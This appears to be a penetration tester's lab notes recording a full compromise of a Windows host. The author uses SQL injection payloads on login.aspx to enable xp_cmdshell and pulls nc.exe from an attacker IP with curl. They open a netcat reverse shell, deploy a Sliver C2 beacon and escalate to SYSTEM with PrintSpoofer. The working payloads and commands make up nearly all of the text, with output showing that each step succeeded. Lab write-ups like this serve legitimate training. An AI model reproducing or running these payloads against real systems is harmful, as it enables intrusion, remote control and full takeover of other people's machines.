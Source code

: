 Attempting SQL injection on .121 at login.aspx to get a shell 
```
' EXECUTE sp_configure 'show advanced options', 1; --//
```
```
' RECONFIGURE; --//
```
```
' EXECUTE sp_configure 'xp_cmdshell', 1; --//
```
```
' RECONFIGURE; --//
```
OR
```
admin' EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXECUTE xp_cmdshell 'ping 192.168.45.170'; --//
```
Testing for ping traffic with 
```
' EXECUTE xp_cmdshell 'ping 192.168.45.170'; --//
```
- Receiving ping traffic with 
```
sudo tcpdump icmp
```
Didn't work but instead I tried to get a payload from the computer with the following and it worked 
```
' EXECUTE xp_cmdshell 'curl -o C:\Temp\nc.exe http://192.168.45.170:8080/windows/nc.exe'
```
Then I got a shell with 
```
' EXECUTE xp_cmdshell 'C:\Temp\nc.exe -e cmd.exe 192.168.45.170 5555'
```
Started sliver server and generated a  payload with 
```
http
```
```
https
```
```
generate beacon --http 192.168.45.170 --os windows -f exe 
```
moved this to my /var/www/html/windows directory and curled it on the machine and executed 
got to the beacons with 
```
beacons
```
```
use <ID>
```
to get out use 
```
background
```

whoami /priv output 
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
- This means we can execute printspoofer64.exe

- Output of printspoofer
```
.\print.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
nt authority\system

```